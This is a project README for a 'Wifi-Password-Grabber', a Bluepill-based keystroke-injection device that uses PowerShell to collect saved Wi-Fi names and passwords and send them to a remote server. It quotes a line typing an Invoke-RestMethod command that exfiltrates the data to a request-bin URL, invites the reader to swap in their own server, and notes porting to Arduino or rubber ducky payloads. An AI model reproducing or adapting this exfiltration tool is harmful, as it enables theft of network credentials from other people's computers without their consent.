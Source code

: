 # Wifi-Password-Grabber
Stm32 bluepill based wifi password grabber. It collects the saved id and passwords using powershell and sends them to a server via GET request.

It sends the data to a request bin but you can change the link in the following line
```
BootKeyboard.print("$data = Invoke-RestMethod -Method Get -d -Uri \"https://envbfffce4gw.x.pipedream.net?$c\"");
```
It can be used with arduino boards as well just make sure to use thier respective libraries and use Keyboard.h for them. The code can be easily ported to a rubber ducky payload as well.
